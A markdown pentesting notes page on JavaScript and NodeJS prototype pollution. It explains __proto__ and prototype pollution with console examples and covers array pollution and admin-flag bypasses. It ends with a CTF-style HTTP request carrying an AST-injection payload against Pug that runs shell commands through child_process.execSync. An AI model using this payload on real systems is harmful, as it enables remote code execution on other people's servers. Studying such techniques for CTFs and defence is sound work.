

>[!tip]
>Cheatsheets and further information can be found at [NodeJS - __proto__ & prototype Pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

# NodeJS and JavaScript

See also [JavaScript & NodeJS](../Dev,%20scripting%20&%20OS/JavaScript%20&%20NodeJS.md)

## `__proto__` pollution

>[!warning]
>Every object in JavaScript is simply a collection of key and value and every object inherits from the Object type in JavaScript. If you are able to pollute the Object type **each JavaScript object of the environment is going to be polluted!**

This is fairly simple, you just need to be able to modify some properties (key-value pairs) from an arbitrary JavaScript object, because as **each object inherits from `Object`**, **each object can access `Object` scheme**.

```jsx
function person(fullName) {
    this.fullName = fullName;
}

var person1 = new person("0xbro");
```

From the previous example it's possible to **access the structure of `Object`** using the following ways:

```jsx
> person1.__proto__.__proto__
> person.__proto__.__proto__

> person1.__proto__.__proto__ === person.__proto__.__proto__
true
```

If now a property is added to the Object scheme, every JavaScript object will have access to the new property:

```jsx
> person1.__proto__.__proto__.printHello = function(){console.log("Hello");}
function printHello()

> person1.printHello()
Hello

> var test = {}
undefined

> test.printHello()
Hello
```

Now **each JS object** will contain the new properties!****

## `prototype` pollution

>[!warning]
>If you are able to modify the properties of a function, you can modify the `prototype` property of the function and **each new property that you adds here will be inherit by each object created from that function.**

```jsx
function person(fullName) {
    this.fullName = fullName;
}
var person1 = new person("0xbro");
var person2 = new person("maoutis");
var person3 = new person("testname");
```

If I pollute a property of the **person** function, every object instantiated from **that function** is now polluted:

```jsx
> person.prototype.sayHello = function(){console.log("Hello");} // Add function as new property
function sayHello()

> person1.sayHello(); // inherits the function
Hello
undefined
> person2.sayHello(); // inherits the function
Hello

> person3.constructor.prototype.sayHelloBis = function(){console.log("HelloBis");} // Add function as new property using the constructor reference 
function sayHelloBis()

> person3.sayHelloBis(); // inherits the function
HelloBis

> person2.sayHelloBis(); // inherits the function 
HelloBis

> var test = {};
undefined
> test.sayHello();
Uncaught TypeError: test.sayHello is not a function // Error because the variable is not instanciated from "**person"**
```

There are 2 ways to abuse prototype pollution to poison **EVERY** JS object (like with `__proto__`).

- pollute the property prototype of **`Object`**

```jsx
Object.prototype.sayBye = function(){console.log("bye!")}
```

- poison the prototype of a constructor of a dictionary variable

```jsx
something = {"a": "b"}
something.constructor.prototype.sayHey = function(){console.log("Hey!")}
```

## Array elements pollution

Note that as you can pollute attributes of objects in JS, if you have access to pollute an array you can also **pollute values of the array** accessible **by indexes** (note that you cannot overwrite values, so you need to pollute indexes that are somehow used but not written).

```jsx
c = [1,2]
a = []
a.constructor.prototype[1] = "yolo"
b = []
b[0] //undefined
b[1] //"yolo"
c[1] // 2 -- not
```

## Practical Examples

So where’s the prototype pollution? It happens when there’s a bug in the application that makes it possible to overwrite properties of `Object.prototype`. Since every typical object inherits its properties from `Object.prototype`, we can change application behaviour. The most commonly shown example is the following:

```jsx
if (user.isAdmin) {   // do something important!}
```

Imagine that we have a prototype pollution that makes it possible to set `Object.prototype.isAdmin = true`. Then, unless the application explicitly assigned any value, `user.isAdmin` is always true!

### Attacker controlling the index of an array and the corresponding assigned value

For example, `obj[a][b] = value`. If the attacker can control the value of `a` and `value`, then he only needs to adjust the value of `a`to `__proto__`(in javascript, `obj["__proto__"]` and `obj.__proto__`are completely equivalent) then property `b` of all existing objects in the application will be assigned to `value`.

However, the attack is not as simple as the one above, according to [paper](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf), we can only attack when one of the following three conditions is met:

- Perform recursive merge
- Property definition by path
- Clone object

# AST Prototype Pollution

In NodeJS, AST is used in JS really often, as template engines and typescript etc. For the template engine, the structure is as shown above, and the most used two are **Handlebars** and **Pug**. [^1]

[^1]:  https://blog.p6.is/AST-Injection/




### Pug

Example from [Gunship](https://www.notion.so/Gunship-d7aa8f7841234d1c993ba55c44ab5191) 

```http
POST /api/submit HTTP/1.1
Host: 134.209.28.38:30545
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 185
Connection: close

{
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('mkdir $(cat flagtZ1pK)')"
    },
"artist.name":"Haigh"
}
```